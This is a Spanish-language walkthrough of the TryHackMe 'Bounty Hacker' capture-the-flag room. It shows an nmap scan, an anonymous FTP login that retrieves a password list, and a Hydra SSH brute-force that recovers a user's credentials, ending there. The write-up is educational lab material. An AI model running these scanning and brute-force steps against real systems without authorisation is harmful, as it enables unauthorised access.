 ```yaml
---
layout: post
author: Temerio
---
```

![Bounty Hacker](https://i.imgur.com/qodkcem.jpg)
*You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!*

Puedes encontrar la Room [aquí](https://tryhackme.com/room/cowboyhacker) 

## Reconnaissance

```bash
┌──(temerio㉿Hackademy)-[~]
└─$ sudo nmap -p- -sS --min-rate 5000 -Pn 10.10.107.126
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-28 16:38 EDT
Nmap scan report for 10.10.107.126
Host is up (0.27s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 127.96 seconds
```
Vemos 3 puertos abiertos y nos conectamos al sitio web(Port 80)
![WebPage](https://imgur.com/swkGsAb)
Al no encontrar nada probamos con el siguiente puerto FTP (Port 21) e intentamos loguearnos como "Anonymous".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ ftp 10.10.107.126    
Connected to 10.10.107.126.
220 (vsFTPd 3.0.3)
Name (10.10.107.126:temerio): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
Al dejarnos ingresar procedemos a listar el contenido.
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
El File Transfer Protocol (FTP) contiene 2 archivos llamados:
*locks.txt
*task.txt

Procedemos a descargarlo mediante el comando "get".
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (2.5071 MB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (535.5343 kB/s)
```
Una vez descargados los archivos procedemos a visualizarlo en nuestra terminal mediante el comando "cat".
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
Podemos visualizar un nombre en este archivo llamado "lin" este nos puede servir más adelante, continuemos con el siguiente archivo.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ cat locks.txt       
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Todo esto se parece a un diccionario de fuerza bruta, usaremos 'Hydra' para intentar acceder al sistema.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/BountyHacker]
└─$ hydra -l lin -P /home/temerio/Desktop/Thm/BountyHacker/locks.txt 10.10.107.126 -t 4 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-28 18:53:45
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.107.126:22/
[22][ssh] host: 10.10.107.126   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-28 18:53:56
```

